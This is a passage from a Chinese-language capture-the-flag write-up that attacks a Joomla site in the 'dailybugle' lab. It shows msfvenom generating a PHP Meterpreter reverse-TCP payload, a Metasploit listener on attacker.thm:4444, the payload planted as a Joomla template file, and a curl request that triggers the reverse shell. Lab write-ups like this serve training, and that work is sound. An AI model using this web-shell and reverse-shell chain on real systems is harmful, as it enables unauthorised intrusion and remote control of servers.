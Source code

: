 图 5

我决定上传一个 PHP web shell([Prodromou 2020](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/))来通过 Metasploit 的 meter preter([Mittal 2011](https://www.exploit-db.com/docs/18229))发起一个反向连接。我使用下面的命令通过 PHP 脚本生成一个反向的 Meterpreter。

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=dailybugle.thm LPORT=4444 -f raw -o meterpreter.php**
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: meterpreter.php

[... snip ...]
```

然后我通过`msfconsole`启动 Metasploit，让它通过`meterpreter.php`监听反向连接:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sudo msfconsole**
[sudo] password for dna:

**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp**
PAYLOAD => php/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/handler) > set LPORT 4444**
LPORT => 4444
**msf6 exploit(multi/handler) > exploit**

[*] Started reverse TCP handler on attacker.thm:4444

[... snip ...]
```

我安装`meterpreter.php`的策略是修改一个 *Joomla* ！包含脚本的模板。为了简洁和可读性，我将跳过这一节，但推荐一篇由 [Williams (2019)](https://medium.com/@nickwilliams_/vulnerability-adventures-dc-3-416afe04c531) 撰写的文章，演示了一个不同的*捕获旗帜*难题的这种方法，该难题涉及在一个 *Joomla* 上安装一个 PHP 后门！内容管理系统。

具体来说，我修改了“原恒星”模板，并添加了一个名为`logging.php`的文件，其中将包含`meterpreter.php`代码。为了得到一个反向 shell，我需要触发`logging.php`脚本来执行。这可以通过[卷曲(未指定)](https://curl.se/docs/faq.html)实用程序来完成:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ curl http://dailybugle.thm/templates/protostar/logging.php**

[... snip ...]
```

不到一分钟，我就收到了目标系统的反向 shell:
